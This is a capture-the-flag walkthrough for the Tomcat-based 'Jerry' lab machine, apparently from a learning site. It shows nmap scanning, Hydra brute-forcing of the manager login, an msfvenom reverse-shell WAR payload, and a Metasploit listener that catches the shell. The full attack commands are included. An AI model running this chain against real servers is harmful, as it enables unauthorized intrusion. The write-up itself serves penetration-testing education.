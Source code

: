 # Jerry

Jerry is a machine that uses `Apache Tomcat`, an open-source application designed to serve web pages developed in `Java`. We are going to exploit this machine using `Metasploit`.

First, let's confirm we have a connection to the target machine by using the `ping` tool, and then check for running applications using `nmap`.

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

You can use the `-sC` switch for scripts to identify potential vulnerabilities, configuration issues, and additional service details. The `-sV` switch is for service version detection, which will send probes to the ports and compare them against a database.

If we type the web page in our browser, we access the Tomcat webpage. Make sure to add `:8080` at the end to specify the correct port running on the web server.

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

If we click the `Server Status` page, we get prompted to add credentials. In this case, `Admin:Admin` works, but it takes us to a web page that contains no information beneficial to our pentest.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

We can try to click `Manager App` or `Host Manager` and utilize the same credentials, but that does not work, as seen by the `403` status code.

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

For a fun exercise, you can run `Burp Suite` as a proxy and catch the `HTTP GET` request. Inside the request will be the credentials `Admin:Admin` you entered in the `Authorization` header, encoded as base64. If you decode it in `Burp` as base64, you will see `Admin:Admin`. Pretty cool.

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Obviously, this website already uses weak credentials, so we are going to try to brute force the password on this website using a tool called `Hydra`.



Clone a list of your choice, Daniel Miessler has some amazing content.

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Let's identify a list of passwords commonly used for Tomcat applications.

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

Once we have identified the list we want to use, run `hydra -h` to get a list of options available from the tool.

We can use the `-C` switch to specify the brute force password list we would like to use with the tool.

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

Run the command, and we identify credentials that work with the `/manager/html` page. It is odd that Hydra determined `Admin:Admin` works, as it actually does not. Anyways...it looks like `tomcat:s3cret` will work. Try these credentials on the `Manager App` link on the website.

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

The page is a directory of war files. We can try to deploy our own war file to get the application to execute code of our choice. `Msfvenom` is the tool of choice here, as it allows us to build reverse shell payloads using different file types. Run the following commands to build the malicious payload.

```shell
msfvenom -l payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp -l formats
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=9001 -f war -o tomcat.war
```

The malicious file is now developed. Next, we can use the `Metasploit` framework to set up a reverse shell listener on our machine, so when the malicious war file is downloaded, we can catch and enter into the shell.

```shell
msfdb run
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpretor/reverse_tcp
msf6 > set LHOST tun0
msf6 > set LPORT 9001
msf6 > exploit -j
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Deploy the war file in the `Manager App`.

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Unzip the folder in your directory, and grab the file ending in `.jsp`. Add the name of this file to the end of the URL in your web browser. This will execute your war file, and the reverse shell listening on your machine should catch the connection.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

```shell
10.10.10.95:8080/tomcat1/dnawdram.jsp
```

Go back to the `Metasploit` listener and check if a session has started.&#x20;

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

You can run the following commands to find the flag:

```shell
shell
whoami
dir
cd Administrator
cd Desktop
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Congrats! You have successfully completed Jerry.&#x20;

References:

{% embed url="https://www.youtube.com/watch?v=PJeBIey8gc4" %}
